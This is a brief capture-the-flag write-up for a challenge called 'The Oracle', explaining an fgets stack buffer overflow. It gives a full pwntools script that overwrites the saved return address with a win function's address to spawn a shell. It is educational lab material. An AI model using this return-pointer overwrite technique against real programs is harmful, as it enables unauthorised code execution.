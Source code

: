 # The Oracle

This challenge is a short, 16 line program that calls `fgets` and overflows a buffer.

Our input is 24 bytes before the return pointer, so we can write 24 bytes, then overflow the saved return pointer.

The program has a function called `win` that will call `/bin/sh`, so since PIE is disabled, we can overwrite saved rip with its address.

```
from pwn import *

p = process('./theoracle')
e = ELF('./theoracle')

payload = b'A' * 24 + p64(e.symbols['win'])

p.sendline(payload)

p.interactive()
```
